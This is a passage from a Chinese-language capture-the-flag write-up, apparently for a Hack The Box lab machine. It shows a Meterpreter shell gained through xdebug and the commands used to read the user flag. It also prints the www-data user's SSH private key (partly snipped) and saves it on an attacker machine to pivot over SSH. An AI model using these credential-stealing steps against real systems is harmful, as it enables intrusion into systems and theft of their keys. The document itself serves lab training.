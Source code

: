 使用 Meterpreter 开发 xdebug

连接会话后，我们可以进入 shell 查看:

```
meterpreter > shell
Process 514 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

pwd
/var/www/html/vpn

ls -lsa /home
4 -rwxrwxrwx 1 root     root       33 Nov  3 13:38 user.txt
4 drwxr-x--- 4 www-data www-data 4096 Jun 14 08:02 www-data
```

# 用户标志

不同寻常的是，用户标志位于/home 的根目录中，让我们在这里抓住它:

```
cat /home/user.txt
<HIDDEN>
```

在我们的用户主文件夹中，我们发现了一些有用的东西:

```
ls -lsa /home/www-data
4 drwx------ 2 www-data www-data 4096 Jun 14 08:00 .cache
4 drwx------ 2 www-data www-data 4096 Jun 14 07:54 .ssh

ls -lsa /home/www-data/.ssh
4 -rw-r--r-- 1 www-data www-data  390 Jun 14 07:54 authorized_keys
4 -rw------- 1 www-data www-data 1675 Jun 14 07:34 id_rsa
4 -rw-r--r-- 1 www-data www-data  390 Jun 14 07:34 id_rsa.pub

cat /home/www-data/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA0pNa5qwGZ+DKsS60GPhNfCqZti7z1xPzxOTXwtwO9uYzZpq/
nrhzgJq0nQNVRUbaiZ+H6gR1OreDyjr9YorV2kJqccscBPZ59RAhttaQsBqHkGjJ
<SNIP>
sjZU9eeOecWbg+B6RWQTNcxo/cRjMpxd5hRaANYhcFXGuxcg1N3nszhWDpHIpGr+
s5Mwc3oopgv6gMmetHMr0mcGz6OR9KsH8FvW1y+DYY3tUdgx0gau
-----END RSA PRIVATE KEY-----
```

让我们从这个 Metasploit shell 转移到一个稳定的 SSH 连接。复制我们找到的私人密钥，并传入 Kali 的一个文件:

```
┌──(root💀kali)-[~/htb/static]
└─# echo "-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA0pNa5qwGZ+DKsS60GPhNfCqZti7z1xPzxOTXwtwO9uYzZpq/
nrhzgJq0nQNVRUbaiZ+H6gR1OreDyjr9YorV2kJqccscBPZ59RAhttaQsBqHkGjJ
<SNIP>
sjZU9eeOecWbg+B6RWQTNcxo/cRjMpxd5hRaANYhcFXGuxcg1N3nszhWDpHIpGr+
s5Mwc3oopgv6gMmetHMr0mcGz6OR9KsH8FvW1y+DYY3tUdgx0gau
-----END RSA PRIVATE KEY-----" > id_rsa

┌──(root💀kali)-[~/htb/static]
└─# chmod 600 id_rsa
```
